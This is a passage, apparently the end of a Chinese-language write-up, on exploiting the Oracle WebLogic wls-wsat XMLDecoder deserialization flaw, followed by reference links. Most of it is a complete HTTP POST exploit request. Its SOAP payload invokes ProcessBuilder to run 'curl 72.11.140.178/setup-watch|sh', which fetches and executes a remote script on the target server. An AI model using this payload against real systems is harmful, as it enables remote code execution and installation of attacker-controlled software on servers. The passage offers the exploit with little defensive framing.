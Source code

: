 ```
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```





```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.222.143:7001
Accept-Encoding: identity
Content-Length: 688
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: text/xml
X-Forwarded-For: 72.11.140.178

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
			  </void>
			  <void index="2">
				<string>curl 72.11.140.178/setup-watch|sh</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```



参考：

1. https://www.anquanke.com/post/id/92003
2. http://www.linuxeye.com/Linux/2136.html
3. https://docs.oracle.com/middleware/1212/core/OUIRF/silent.htm#OUIRF331
4. https://docs.oracle.com/middleware/1212/core/OUIRF/response_file.htm#OUIRF390
5. https://docs.oracle.com/middleware/1212/core/OUIRF/overview.htm#OUIRF316
6. https://docs.oracle.com/en/middleware/fusion-middleware/index.html
7. https://www.cnblogs.com/fibonaccixue/p/6577377.html  weblogic静默安装